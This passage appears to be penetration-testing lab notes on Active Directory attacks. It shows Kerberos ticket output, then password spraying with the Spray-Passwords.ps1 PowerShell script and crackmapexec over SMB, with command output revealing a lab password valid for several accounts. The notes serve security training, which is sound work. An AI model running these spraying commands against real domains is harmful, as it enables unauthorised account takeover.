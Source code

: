 ```shell
           Client Name  (01) : jeff ; @ CORP.COM ( CORP.COM )
           Flags 40e10000    : name_canonicalize ; pre_authent ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000001 - des_cbc_crc
             bf25fbd514710a98abaccdf026b5ad14730dd2a170bca9ded7db3fd3b853892a
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
...
```

The output shows both a TGT and a TGS. Stealing a TGS would allow us to access only particular resources associated with those tickets. Alternatively, armed with a TGT, we could request a TGS for specific resources we want to target within the domain


## Password Spraying (Reused passwords - From Windows or Crackmapexec)

> If you receive a network error, make sure that the encoding of **usernames.txt** is _ANSI_. You can use Notepad's _Save As_ functionality to change the encoding.

To review account policy as registered user we can use command `net accounts`. Here we can _Lockout threshold_ and _Lockout observation window_.

For crackmapexec and kerbrute, we had to provide a list of usernames. To obtain a list of all domain users, we can leverage techniques we learned in the Module _Active Directory Introduction and Enumeration_ or use the built-in user enumeration functions of both tools.
#### Password Spraying by PS Script

For password spraying tactic we can use the PowerShell script **[Spray-Passwords.ps1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/modules/Spray-Passwords.ps1)**

```shell
PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

#### Password Spraying by SMB and Crackmapexec

We have to specify the wordlist for users. As a bonus, however, the output of crackmapexec not only displays if credentials are valid, but also if the user with the identified credentials has administrative privileges on the target system.

```bash
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```
